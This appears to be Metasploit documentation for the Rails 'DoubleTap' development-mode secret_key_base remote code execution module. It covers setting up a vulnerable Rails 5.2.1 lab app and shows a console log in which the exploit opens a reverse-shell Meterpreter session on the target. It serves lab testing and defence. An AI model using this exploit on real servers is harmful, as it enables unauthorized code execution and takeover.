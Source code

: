 # Ruby on Rails DoubleTap Development Mode secret_key_base Vulnerability

## Background

Ruby on Rails is a server-side web application framework written in Ruby. It is a model-view-controller (MVC) archtecture, providing default structures for a database, a web service, and web pages. It is also a popular choice of ramework among well known services and products such as Github, Bloomberg, Soudcloud, Groupon, Twitch.tv, and of course, Rapid7s Metasploit.

In development mode, Ruby on Rails versions including 5.2.2 and prior are vulnerable to a remote code execution vulnerabiity due to a predictable secret_key_base based on the name of the Rails application, and use it to create a signed serialized payload, and gain remote code execution.

## Vulnerable Setup

In order to set up a vulnerable box for testing, do this on a Linux machine (such as Ubuntu), and assuming you already have rvm installed:

```
$ rvm gemset create test
$ rvm gemset use test
$ gem install rails '5.2.1'
$ rails new demo
```

Next, `cd` to demo, and then modify the Gemfile like this:

```
$ echo "gem 'rails', '5.2.1'" >> Gemfile
$ echo "gem 'sqlite3', '~> 1.3.6', '< 1.4'" >> Gemfile
$ echo "source 'https://rubygems.org'" >> Gemfile
$ bundle
```

Next, add a new controller:

```
rails generate controller metasploit
```

And add the index method for that controller (under app/controllers/metasploit_controllers.rb):

```
class MetasploitController < ApplicationController
  def index
    render file: "#{Rails.root}/test.html"
  end
end
```

In the root directory, add a new test.html:

```
echo Hello World > test.html
```

Also, add that new route in config/routes.rb:

```
Rails.application.routes.draw do
  resources :metasploit
end
```

And finally, start the application (since no mode is specified, by default, it is development mode):

```
rails s -b 0.0.0.0
```

## Demonstration

### Server

```
$ rails server -b 0.0.0.0 
=> Booting Puma
=> Rails 5.2.1 application starting in development 
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 3.12.1 (ruby 2.6.0-p0), codename: Llamas in Pajamas
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://0.0.0.0:3000
Use Ctrl-C to stop
```

### Metasploit

```
msf5 exploit(multi/http/rails_double_tap) > check
[+] 172.16.249.141:3000 - The target is vulnerable.
msf5 exploit(multi/http/rails_double_tap) > exploit

[*] Started reverse TCP handler on 172.16.249.1:4444 
[*] Attempting to retrieve the application name...
[*] The application name is: Demo
[*] Stager ready: 433 bytes
[*] Sending serialized payload to target (1250 bytes)
[*] Sending stage (985320 bytes) to 172.16.249.141
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.141:62572) at 2019-04-25 16:29:43 -0500
[+] Deleted /tmp/LsvSGK.bin
[+] Deleted /tmp/tSJfp.bin

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > pwd
/home/sinn3r/demo
meterpreter >
```


